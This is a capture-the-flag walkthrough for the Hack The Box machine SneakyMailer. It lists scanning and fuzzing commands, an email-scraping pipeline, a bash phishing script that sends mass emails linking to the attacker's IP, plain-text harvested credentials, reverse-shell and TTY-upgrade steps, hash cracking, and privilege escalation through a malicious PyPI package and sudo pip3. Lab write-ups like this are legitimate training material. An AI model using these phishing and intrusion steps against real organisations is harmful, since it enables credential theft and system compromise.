

# [SneakyMailer](https://app.hackthebox.com/machines/sneakymailer)

```bash
nmap -p- --min-rate 10000  10.10.10.197 -Pn
```


After seeing open ports, let's do greater nmap scan for them.

```bash
nmap -A -sC -sV -p21,22,25,80,143,993,8080 10.10.10.197
```


Directory brute-forcing

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.10.197 -H "Host: FUZZ.sneakycorp.htb" --hc 301
```


I modify '/etc/hosts' file.


On this endpoint 'team.php' , we have all emails of company workers.


Let's grab all of them.

```bash
curl -s http://sneakycorp.htb/team.php | grep '@' | cut -d'>' -f2 | cut -d'<' -f1 > emails
```


After grabbing emails, it's time to **Phishing** attack. I wrote a script to send Phishing emails to all users which we found before.

```bash
#!/bin/bash
for sender in $(cat emails)  #email contains lists of emails
do
        for rcv in $(cat emails)
        do
                echo "mail from:$sender"
                echo "rcpt to:$rcv"
                echo "data"
                echo "Subject: Looking for a job" 
                echo "http://10.10.16.5/clickme" #attackers ip
                echo "."
        done
done
```

This script is just sending emails between users and main part is that I put link which is my ip that I listening.


```bash
./sendemail.sh | nc 10.10.10.197 25 #smtp's port
```


I do listening by adding `-k` option as because it keeps **LISTENING**.


From here I grab credentials.Let's decrypt this via [Cyberchef](https://cyberchef.io/) tool.


Grabbed credentials.

paulbyrd@sneakymailer.htb: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht


It's email credentials.Let's try to login Mail system of company via this user's credentials. For this, I use `claws-mail` tool.




Here it is, I find credentials of 'developer' user.


developer: m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C


I used this credentials to login 'FTP' service.


Here, I discover that, FTP service data is served via HTTP, that's why if I put reverse shell into FTP , I can easily got reverse shell by browsing HTTP(dev.sneakycorb.htb).

Here's my malicious reverse shell script.


I already uploaded malicious file into FTP service.


Let's browse and open listener to catch reverse shell.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


After making some enumeration, I find interesting directory called '/var/www/pypi.sneakycorp.htb' and there is file called '.htpasswd'


Let's grab hash and try to crack it.

```bash
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

I find password of user.


pypi: soufianeelhaoui


We already do some enumeration, find that there we have also 'pypi.sneakycorp.htb' website which we can put **Python Package Repository**

I understand that I need to upload malicious package repository, for this I find this [blog](https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/) to make this.

Here's my setup.py file.


Then, I run below command.

```bash
python setup.py sdist
```

Then should create file called `~/.pypirc`


We upload our package into remote repository.

```bash
python setup.py sdist upload -r sneaky
```

I got reverse shell already.


user.txt


We look at privileges of this user via `sudo -l` command.


Now, I upload my reverse shell file into machine via `wget` command.
Then run pip3 command as because this user have **SUDO** privilege.

```bash
sudo pip3 install . 
```


root.txt

